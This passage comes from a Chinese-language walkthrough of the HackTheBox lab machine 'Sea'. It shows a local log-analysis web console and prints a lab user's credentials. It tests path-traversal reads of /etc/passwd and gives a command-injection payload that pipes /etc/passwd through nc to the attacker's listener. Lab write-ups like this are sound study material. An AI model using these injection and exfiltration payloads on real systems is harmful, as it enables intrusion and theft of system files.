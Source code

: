 
### 本地端口8080

看看目标的本地8080端口到底是个啥，浏览器访问 `127.0.0.1:8081` 后弹出认证框，输入amay的凭据（`amay:mychemicalromance`）后进入如下画面：
![[HTB-Sea-8080.png]]

点击 `Analyze` 在Burp可以发现是个POST请求：
```
POST / HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://127.0.0.1:8081
Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
Connection: close
Referer: http://127.0.0.1:8081/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log&analyze_log=
```

将payload改为 `log_file=/etc/passwd&analyze_log=` 后相应如下（payload仅用一个参数 `log_file=/etc/passwd` 的话似乎失效，没有返回特别的内容）：
![[HTB-Sea-8080-payload.png]]

有点像LFI，不过可以发现其获取的 `/etc/passwd` 不是输出所有内容，且用户id111之后没有112和113，似乎过滤了什么内容才输出的。

而其本身获取的log文件也需要root级别的权限才能访问，所以此控制台的权限很高：
```
amay@sea:~$ ls -al /var/log/
total 1480
drwxrwxr-x  11 root      syslog            4096 Aug 15 13:13 .
drwxr-xr-x  14 root      root              4096 Feb 21 01:26 ..
drwxr-x---   2 root      adm               4096 Aug 15 13:13 apache2
```


尝试直接获取 `/root/root.txt` 发现不行，甚至连 `/home/amay/user.txt` 都不行。有点迷……

#### 命令注入

kali开启`nc`监听，尝试发送payload `log_file=/home/amay/user.txt;nc+10.10.14.47+80+<+/etc/passwd&analyze_log=`，能收到整个 `/etc/passwd` 的内容！看来是命令注入。



## flag: root
